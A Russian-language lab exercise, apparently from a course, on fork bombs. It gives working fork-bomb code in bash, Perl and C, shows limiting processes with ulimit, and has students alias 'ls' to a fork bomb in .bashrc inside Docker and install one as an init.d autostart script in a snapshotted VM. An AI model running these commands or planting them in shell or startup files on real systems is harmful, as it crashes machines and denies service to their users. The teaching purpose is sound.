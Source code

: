 # Fork Bomb #

**ПЕРЕД ВЫПОЛНЕНИЕМ ПРАКТИЧЕСКОЙ ЧАСТИ ОБЯЗАТЕЛЬНО СДЕЛАЙТЕ SNAPSHOT ВАШЕЙ ВИРТУАЛЬНОЙ МАШИНЫ**

fork-бомба — вредоносная или ошибочно написанная программа, бесконечно создающая свои копии (системным вызовом fork()), которые обычно также начинают создавать свои копии и т. д.

Выполнение такой программы может вызывать большую нагрузку вычислительной системы или даже зависание системы вследствие нехватки системных ресурсов (дескрипторов процессов, памяти, процессорного времени), что и является целью.

fork-бомбу очень трудно ликвидировать, т.к. один процесс не зависит от другого и эффективнее всего помогает только лишь перезагрузка компьютера. Но иногда бомба попадает и в автозагрузку (если это указано в коде) и тогда для ее ликвидации необходимо загружаться в режиме защиты от сбоев (например, безопасном режиме в Windows). Но некоторые fork-бомбы можно уничтожить и без перезагрузки.

### Примеры создания  Fork Bomb ###

Итак, код выглядит так:

	:(){ :|:& };:

Где:
   *	:() — Определение функции.
   *	{  — Открытие функции.
   *    : — загрузка копии функции «:» в память
   *    |: — перенаправление вывода в следующую копию функции
   *	& — Помещает вызов функции в фоновом режиме, чтобы fork (дочерний процесс) не мог «умереть» вообще, тем самым это начнет есть системные ресурсы.
   *	} — Закрытие функции.
   *	; — Завершите определение функции. Т.е является разделителем команд, (командный сепаратор).
   *	: — Запускает функцию которая порождает fork bomb().
	 
Это рабочий код, но не очень читабельный. Вот пример нормального, читаемого кода:
	 
	 #!/bin/bash
	 bomb() {
	 bomb | bomb &
	 };
	 bomb

Существуют Fork-бомбы и на языках программирования, приведу некоторые из них :

### Пример создания  Fork Bomb с использованием perl ###

	# perl -e "fork while fork" &

### Пример создания  Fork Bomb с использованием C/C++ ###

	#include <unistd.h>
	int main(void)
	{
		while(1)
		fork();
	}

И все-таки fork-бомбы на каких они языках программирования не написаны действуют по одному принципу.

**Не забыли сделать SnapShot?**

## Ограничение процессов, создаваемых пользователем ##

Избегайте использования fork в любом, выражении, которое может оказаться в бесконечном цикле. 
Для уничтожения такой бомбы применяется ограничение колличества одновременно работающих процессов и тогда один из процессов fork-бомбы будет завершаться и на месте его будет создаваться другой процесс при достижении максимального колличества.
Утилита ```ulimit``` используется для временного установления пределов текущей оболочки и ее сыновей (таким образом в двух разных терминалах можно).
Можно ограничить процесс разветвления, как показано ниже:

	ulimit -u count_of_process

Установим предел процессов **N** * 2, где **N** - номер по журналу. 
Проверим результат:

	ulimit -a

Необходимо отметить, что ограничение количества процессов само по себе не предотвращает запуск fork-бомбы, а лишь направлено на минимизацию возможного вреда в случае её срабатывания.

Запустим fork-бобму:
	
	:(){ :|:& };:

Обратите внимание на всплывающие ошибки.
Закроем терминал и откроем новый.

Проверим ограничения нового терминала:

	ulimit -a
	


Запустим fork-бобму:

	:(){ :|:& };:

Перезапускаем гостевую ОС с помощью панели инструментов.

## alias и .bashrc ##
alias - своего рода сокращатель.
Утилита создана для того, чтобы делать сложные вещи простыми (или простые — ещё проще). Вместо того, чтобы использовать длинную и/или сложную команду можно создать простой псевдоним для неё и затем использовать его в своё удовольствие. Общий формат определения псевдонима при помощи alias таков:

	alias псевдоним="команда"
	
Файл .bashrc – это сценарий, который запускается всякий раз, когда начинается новый сеанс терминала в интерактивном режиме.
Сам файл .bashrc содержит ряд конфигураций для сеанса терминала. Сюда входит настройка или включение: раскраска, завершение, история оболочки, псевдонимы команд и многое другое. Файл .bashrc распространяемый вместе с Ubuntu, хорошо комментируется, и вы сможете понять, что он делает, просто прочитав его. 

В рамках ПЗ мы ограничимся малым, подменим всем хорошо знакомую утилиту ```ls``` на fork-бомбу.
Создадим папку *fork* и скопируем в нее *.bashrc*:

	mkdir fork
	cd fork
	cp ~/.bashrc .bashrc
	
В сценарии подмените ```ls``` на fork-бомбу

В опробуем нашу бомбу в docker-контейнере:

Dockerfile:

	FROM ubuntu
	COPY .bashrc /root/.bashrc
	CMD ["pwd"]
	
Создадим docker-образ:
	
	sudo docker build -t fork .
	
Запустим контейнер в интерактивном режиме:
	
	sudo docker run -ti -fork /bin/bash

Проверим нашу бомбу.

Ограничим число доступных ресурсов ЦП нашего контейнера флагом ```--cpus=".5"```, запустим наш контейнер снова.

## Добавим fork-бомбу в автозагрузку ##

1) В каталоге ```/etc/init.d/``` cоздадим скрипт forkbomb.sh:
	
	#!/bin/bash 
	:(){ :|: & };:
	exit
	
2) Сделаем его выполняемым (уточнить, что такое *ugo*):

	chmod ugo+x forkbomb.sh

3) Добавляем бомбу в автозагрузку:

	sudo update-rc.d _start.sh defaults

4) Перезагружаем виртуальную машину.
Как мы могли заметить, с системой ничего нельзя сделать, кроме как выключить ее.
После выключения возвращаем нашу виртуальную машину к заранее сделанному снимку.
Отметим под конец, что даже с современными операционными системами не существует идеального способа предотвращения вилочной бомбы. Однако применение общих рекомендаций по обеспечению безопасности и предотвращение запуска ненадежного программного обеспечения в корне может заблокировать подавляющее большинство сценариев атак с использованием «вилочных бомб».

